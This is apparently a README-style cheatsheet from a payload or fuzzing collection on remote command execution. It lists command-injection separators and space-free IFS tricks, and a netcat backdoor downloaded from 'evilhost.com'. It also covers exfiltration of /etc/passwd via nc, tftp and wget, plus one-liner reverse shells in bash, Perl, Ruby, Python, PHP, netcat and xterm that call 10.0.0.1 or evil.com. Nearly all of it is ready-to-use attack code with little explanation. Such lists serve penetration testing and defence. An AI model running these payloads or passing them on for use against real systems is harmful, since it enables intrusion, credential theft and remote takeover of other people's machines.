 Remote Command Exec Cheatsheet

File notes

**source-disc-cmd-exec-traversal.fuzz.txt**

usage
```GET /path/*payload*relative/path/to/target/file/```

**Executing Commands**

Seperating Commands<br>
``` blah;blah2 ```

PIPES<br>
``` blah ^ blah 2```

AND <br>
```blah && blah2```

OR<br>
```FAIL || X```

OR <br>
``` blah%0Dblah2%0Dblah3 ```

Backtick<br>
``` `blah` ```

Background <br>
``` `blah & blah2` ```

***Shell commands without spaces***
<b>Using Internal Field Separator (IFS)</b>
Test for cmd injection withouot spaces:<br>
``` sleep${IFS:0:1}20 ```<br>

Example netcat backdoor without spaces:<br>
``` {wget,http://evilhost.com/nc} ```<br>
``` {chmod,+x,./nc} ```<br>
``` {./nc,-l,-p,6666,-e,/bin/bash} ```<br>

<b>Shell Variables</b>
``` CMD=$'cat\x20/etc/passwd';$CMD ```

<br>shell variable increment through file one line at a time</b>
increment the first +1 to retreive the entire file, line by line<br>
``` SP=$'\x20';cat$SP/etc/passwd|tail$SP-n+1|head$SP-n+1 ```


**Exfiltrating Files / Data**

FTP <br>
Make a new text file, and echo and then redirect to FTP

NC <br>
``` 'nc -e /bin/sh' ```

NC <br>
``` 'echo /etc/passwd  | nc host port' ```

TFTP <br>
``` 'echo put /etc/passwd | tftp host' ```

WGET: <br>
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**

On the listener <br>
``` $ nc -l -p 8080 -vvv' ```

On the remote host...
Bash:<br>
``` $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 ```

``` $ exec 5<>/dev/tcp/evil.com/8080 ```<br>
'$ cat <&5 | while read line; do $line 2>&5 >&5; done'

Perl<br>
```$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ```

Ruby<br>
``` $ ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' ```

Python<br>
``` $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

PHP<br>
``` $ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ```
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat<br>
``` $ nc -e /bin/sh 10.0.0.1 1234 ```

``` $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```


XTERM:<br>
Server: <br>
```$ xterm -display 10.0.0.1:1```
Listener:<br>
```$ Xnest :1```
```$ xhost +targetip```


<br>More docs: /docs/attack-docs/remote-cmd-exfiltration/<br>
